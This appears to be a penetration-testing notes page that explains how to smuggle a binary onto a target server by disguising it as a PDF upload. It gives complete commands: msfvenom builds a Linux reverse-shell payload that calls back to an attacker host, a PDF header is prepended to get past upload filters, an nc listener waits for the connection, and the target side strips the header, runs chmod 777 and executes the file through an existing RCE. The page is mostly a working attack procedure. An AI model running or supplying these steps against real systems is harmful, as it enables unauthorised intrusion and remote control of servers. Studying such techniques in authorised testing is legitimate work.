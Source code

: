 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# File Type

This is the case where we have access to a target server, but we don't have default options for file transfer, like wget, curl, etc.&#x20;

However, sometimes the application allows you to upload files with certain types of extensions or certain types of content. For example, the application allows us to upload a PDF file, with this we can forge a PDF with a binary inside the file and then we can extract this information from inside the file through the target server.

### Linux Attacker

I have access to the target server through an RCE in the URL, but I want access to a shell on the server. To do this I will create a reverse shell file with [MSFvenom](https://www.offsec.com/metasploit-unleashed/msfvenom/) and make it recognized as a pdf file.

```bash
# Creating a reverse shell file with MSFvenom
msfvenom -p linux/x86/reverse_tcp lhost=attacker-ip lport=443 -f elf > revshell

# Creating a file with the header of a PDF file
echo "%PDF-1.3" > header

# Forging the binary file to be recognized as a PDF file
cat header revshell > forged-file

# Opening a local port to access the reverse shell
nc -vlnp 443
```

### Linux Target

First, we upload the forged-file file through the application.\
When you locate the file on the server, you need to remove the pdf header from the forged file so that it is recognized as a binary file again and can be executed.

{% hint style="info" %}
<mark style="color:purple;">**Note:**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">The following commands must be executed through the access you have to the target, such as an RCE</mark><mark style="color:purple;">**.**</mark>
{% endhint %}

```bash
# Removing the PDF header
tail -n +2 ./forged-file > revshell

# Giving permission to the file
chmod 777 revshell

# Run the file and check the nc command that ran on your machine
./revshell
```

